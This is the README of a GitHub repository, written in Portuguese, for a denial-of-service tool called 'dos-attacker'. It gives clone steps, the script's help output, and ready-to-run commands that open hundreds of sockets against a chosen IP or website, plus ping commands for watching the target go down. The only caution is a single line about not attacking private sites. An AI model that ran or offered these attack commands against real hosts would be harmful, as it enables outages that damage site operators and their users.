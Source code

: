 # dos-attacker

![GitHub repo size](https://img.shields.io/github/repo-size/DioBruh/tools-hacking?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/DioBruh/tools-hacking?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/DioBruh/tools-hacking?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/DioBruh/tools-hacking?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/DioBruh/tools-hacking?style=for-the-badge)

<p>
  <img src="https://img2.gratispng.com/20180331/piw/kisspng-giant-panda-bear-pixel-art-5ac02cd75add07.0257870115225438313722.jpg"width="250px">
</p>

## ❕ Atenção
* Não ataque sites privados. isto é illegal.

## 🖥️ Pré-requisitos
* Ultima versão do `Python3`.
para verificar isto, é bem simples. Basta digitar:

```powershell
python --version
```

## ☕ Utilização
`Clone` o repositorio usando:

```
git clone https://github.com/DioBruh/Dos-Attack/
```

`Navegue` até a pasta do scanner utilizando:

```
cd tools-hacking
```

```
cd dos
```

`Usage:`

```
python dos.py --help 
```

```powershell
usage: dos.py [-h] [--http [HTTP ...]] [-i [IP]] [-p PORT] [-s SOCKETS]

optional arguments:
  -h, --help            show this help message and exit
  --http [HTTP ...]     Attack https://<host>
  -i [IP], --ip [IP]    Host to attack.
  -p PORT, --port PORT  Port of webserver, usually 80
  -s SOCKETS, --sockets SOCKETS
                        Number of sockets to use in the test
```

#### Uso para ip. 

```cmd
python dos.py --ip <ip> -p <port> -s 500
```

#### Em outro terminal, abra um ping no ip que está atacando.

### Windows

```bat
ping <ip> -t
```

### Linux
```cmd
ping <ip> 
```



### Uso para site.

```cmd
python dos.py --http <web_site> -p <port> -s 500
```

default port is: 80<br>
default socks is: 150

Existem 2 modos possiveis para os ataques.
* IP attack.
* WebSite attack.

## 🤝 Colaboradores.
<table>
    <td align="center">
      <a href="https://github.com/DioBruh/">
        <img src="https://github.com/OnlyFalopas/falopas-painel/blob/main/devs/87872423.jpg" width="100px;" alt="Foto do DIO"/><br>
        <sub>
          <b>Dio Brando</b>
        </sub>
      </a>
    </td>
  <td align="center">
      <a href="https://github.com/Josh-Washington">
        <img src="https://avatars.githubusercontent.com/u/89495720?v=4" width="100px;" alt="Foto do josh"/><br>
        <sub>
          <b>JOsh Washington</b>
        </sub>
      </a>
    </td>
  </tr>
</table>

